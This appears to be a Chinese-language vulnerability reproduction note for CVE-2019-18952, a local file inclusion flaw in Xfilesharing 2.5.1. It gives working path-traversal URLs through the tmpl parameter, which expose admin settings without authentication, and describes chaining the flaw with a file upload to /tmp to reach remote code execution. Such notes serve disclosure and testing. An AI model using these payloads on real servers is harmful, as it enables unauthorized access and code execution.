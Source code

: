 ```yaml
---
title: "（CVE-2019-18952）Xfilesharing 2.5.1本地文件包含"
id: zhfly3285
---
```


# （CVE-2019-18952）Xfilesharing 2.5.1本地文件包含

## 一、漏洞简介

## 二、漏洞影响

Version: <=2.5.1

## 三、复现过程

### 本地文件包含

```
http://0-sec.org/?op=page&tmpl=../../admin_settings 
```

此URL将获取“ admin_settings.html”模板，无需任何身份验证。“ .html”扩展名在服务器上进行了硬编码，因此所包含的文件必须在服务器上的任何位置都具有html扩展名。甚至可以通过上传html文件（例如“ upload.html”）并将“ sid”更改为“ ../../../../../../tmp”将LFI与任意文件上传漏洞合并，然后因此该文件将上传到服务器的tmp目录中。

```
http://0-sec.org/?op=page&tmpl=../../../../../../../tmp/upload 
```

Xfilesharing脚本也内置了短代码，因此您可以实现RCE通过将它们包括在“上传”中。